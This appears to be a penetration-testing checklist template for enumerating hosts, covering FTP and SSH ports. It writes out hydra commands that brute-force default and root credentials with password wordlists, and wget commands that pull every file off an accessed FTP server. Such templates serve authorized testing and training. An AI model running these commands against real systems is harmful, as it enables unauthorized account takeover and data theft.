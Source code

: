 | IP              | Hostname | OS  |
| --------------- | -------- | --- |
| 10.10.xxx.xxx   | Hostname | OS  |
| 192.168.xxx.xxx | Hostname | OS  |
| 10.10.xxx.xxx   | Hostname | OS  |
| 192.168.xxx.xxx | Hostname | OS  |
| 192.168.xxx.xxx | Hostname | OS  |
| 192.168.xxx.xxx | Hostname | OS  |

| Port | Service | Notes |
| ---- | ------- | ----- |
| port | service | notes |

---
---
# Ports

## Port 21 (FTP)

- [ ] Check for default credentials
```
hydra -v -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -f 192.168.xxx.xxx ftp
```
- [ ] Check for vulnerable FTP Version
- [ ] Brute force as root or other user if one is known
```
hydra -v -V -l root -P /usr/share/wordlists/rockyou,txt 192.168.xxx.xxx ftp
```
### If access is achieved
- [ ] Download all files
```
wget -m ftp://anonymous:anonymous@192.168.xxx.xxx

wget -r --user="USERNAME" --password="PASSWORD" ftp://192.168.xxx.xxx # if user or password has special chars
```

---
## Port 22 (SSH)

- [ ] Check for default credentials
```
hydra -v -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -f 192.168.xxx.xxx -p 22 ssh
```
- [ ] Check for vulnerable SSH Version
- [ ] Brute force as root or other user if one is known
```
hydra -v -V -l root -P /usr/share/wordlists/rockyou.txt 192.168.xxx.xxx ssh
```

---